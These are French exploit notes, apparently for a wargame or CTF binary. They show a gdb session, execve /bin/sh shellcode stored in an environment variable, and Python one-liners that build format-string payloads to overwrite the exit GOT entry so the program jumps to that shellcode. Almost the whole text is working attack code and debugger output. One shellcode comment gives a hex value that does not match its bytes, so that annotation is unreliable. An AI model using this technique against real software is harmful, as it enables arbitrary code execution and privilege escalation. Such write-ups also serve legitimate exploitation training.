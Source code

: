 # gdb:
	> disas exit
<<< Dump of assembler code for function exit@plt:
<<< 0x08048370 <+0>:	jmp    *0x80497e0
<<< 0x08048376 <+6>:	push   $0x18
<<< 0x0804837b <+11>:	jmp    0x8048330
<<< End of assembler dump.

On va modifier exit pour qu'il jump au shellcode ci-dessous:

# char sc[] = "\x6a\x0b" // push byte +0xb
# "\x58" // pop eax
# "\x99" // cdq
# "\x52" // push edx
# "\x68\x2f\x2f\x73\x68" // push dword 0x68732f2f
# "\x68\x2f\x62\x69\x6e" // push dword 0x6e69922f
# "\x89\xe3" // mov ebx, esp
# "\x31\xc9" // xor ecx, ecx
# "\xcd\x80"; // int 0x80

# bash:
export PAYLOAD05=$(python -c "print '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'")
	<!-- > export PAYLOAD05=$(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'") -->

# gdb:
	> b main
	> r
	> x/s *((char **)environ+16)
<<< 0xffffdf34:	 "PAYLOAD05=j\vX\231Rh//shh/bin\211\343\061\311̀"
	> x/s 0xffffdf3e
<<< 0xffffdf3e:	 "j\vX\231Rh//shh/bin\211\343\061\311̀"

Notre payload a l'adresse 0xffffdf3e

0xffffdf3c
0xffffdf3c - 8 = FFFFDF34

# bash:
	b *0x0804850c
	r < <(cat /tmp/payload05)
	x/24bx 0xffffd678

	python -c 'print "\xff\xff\xd6\x78"[::-1] + "\xff\xff\xd6\x7a"[::-1] + "%57142c" + "%10$hn" + "%8385c" + "%11$hn"' > /tmp/payload05

	python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%57140c" + "%10$hn" + "%8387c" + "%11$hn"' > /tmp/payload05

	x/24bx 0x08048370
0x8048370 <exit@plt>:	0xff 0x25 0xe0 0x97 0x04 0x08 0x68 0x18
0x8048378 <exit@plt+8>: 0x00 0x00 0x00 0xe9 0xb0 0xff 0xff 0xff